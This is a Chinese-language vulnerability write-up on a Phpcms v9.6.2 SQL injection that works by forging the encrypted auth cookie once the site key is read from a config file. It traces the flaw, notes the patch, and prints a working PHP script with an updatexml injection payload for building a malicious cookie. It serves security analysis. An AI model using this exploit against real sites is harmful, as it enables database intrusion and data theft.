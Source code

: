 # Phpcms v9.6.2 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 前台 sql 注入.html](http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 前台 sql 注入.html)

## 一、漏洞简介

## 二、漏洞影响

Phpcms v9.6.2

## 三、复现过程

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 **key** 值，我们可以用这个 **key** 加密我们的 **SQL 注入 payload** 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 **v9.6.2** 版本的注入只能在 **windows** 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php** ，代码如下图。我们可以明显看到下图第 33 行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 **$phpcms_auth** 和解密秘钥 **$auth_key** 均可构造。

![image](img/31199cc58b224a362830cf452e48fb81.png)

我们先来看一下待解密数据 **$phpcms_auth** 如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx_auth** 字段经过 **sys_auth** 函数解密后，返回给了 **$phpcms_auth** ，而默认情况下使用 **pc_base::load_config('system', 'auth_key')** 作为加解密的 **key** 值。

![image](img/df022afc2129fd711c02f550fff65bb6.png)

而 **pc_base::load_config('system', 'auth_key')** 的值在网站搭建好后，会存储在 **caches/configs/system.php** 中，我们可以通过任意文件读取来获得这个值。

![image](img/a86f4a76ac68c9f26c181b162bc50c72.png)

现在 **$phpcms_auth** 已经搞定了，我们再来看看 **$auth_key = get_auth_key('login')** 如何构造，跟进 **get_auth_key** 的代码。我们可以看到 **$auth_key** 由 **$prefix、pc_base::load_config('system','auth_key')、ip()** 三个元素决定。前两个都是已知的，而第三个获取用户 IP 的函数存在 IP 伪造的问题，也可以是固定的。

![image](img/883c4d93ed0e32fc339b40b71783856d.png)

所以 **get_auth_key('login')** 的值也是我们可以构造的，剩下的事情只要我们将 **payload** 传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3** 中是如何修复这个漏洞的，补丁如下：

![image](img/db257ffb6b958d5b873716c7e1b66949.png)

可以明显看到，补丁将解密后获得的 **$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后 sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth 方法对 cookie 中包含 auth 的参数名对应的密文值，先使用配置文件中的 auth_key 进行 sys_auth 得到的值作为第一次解密后的值，然后使用配置文件中的 auth_key 的值与客户端请求的 IP 拼接做 MD5 加密的值做为新的 key，第一次解密后的值与新的 key 最后传入 sys_auth 进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的 auth_key 的值与客户端请求的 IP 拼接做 MD5 加密的值做为新的 key，使用新的 key 与明文进行 sys_auth 得到的值作为第一次加密的密文，然后使用配置文件中的 auth_key 作为 key 与第一次加密的密文传入 sys_auth 得到的值作为最终的密文，也就是 cookie 字段名称中包含 auth 的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行 payload 的加解密操作：**

```
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {

            return '';
        }
    } else {
        return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    }
}

function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
    if($prefix=='login'){
        $pc_auth_key = md5($auth_key.$ip);
    }else if($prefix=='email'){
        $pc_auth_key = md5($auth_key);
    }else{
        $pc_auth_key = md5($auth_key.$suffix);
    }
    $authkey = md5($prefix.$pc_auth_key);
    return $authkey;
}

//解密过程
//step 1
$encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
$operation1 = 'DECODE';
$decryption_step1 = (sys_auth($encryption_str, $operation1));
echo 'decryption_step1 result:'.$decryption_step1."\n";

//step 2
$decryption_step2 = $decryption_step1;
$auth_key = get_auth_key('login');
echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

echo '-----------------------'."\n" ;

//加密过程
//step 1
$clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
$operation2 = 'ENCODE';
$encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
echo 'encryption_step1 result:'.$encryption_step1."\n";

//step 2
$encryption_step2 = (sys_auth($encryption_step1, $operation2));
echo 'encryption_step2 result:'.$encryption_step2; 
```

使用上面的代码可以进行解密和加密，下图中 decryption_step2 result 的值便是对 payload 进行解密的最终结果，encryption_step2 的值是对 payload 进行加密的最终结果。

![image](img/f7235d0fc9078870a28969c6bdb77059.png)

最终利用的现象，cookie 中的 YDVIB_auth 参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的 cookie 中字段名称中 xxx_auth 的参数名称，便是存在漏洞的位置。

![image](img/e4c70ae726aeac1d7e3c27c962708d9a.png)

## 参考链接

> [https://www.freebuf.com/column/158352.html](https://www.freebuf.com/column/158352.html)
> 
> [https://xz.aliyun.com/t/5731](https://xz.aliyun.com/t/5731)

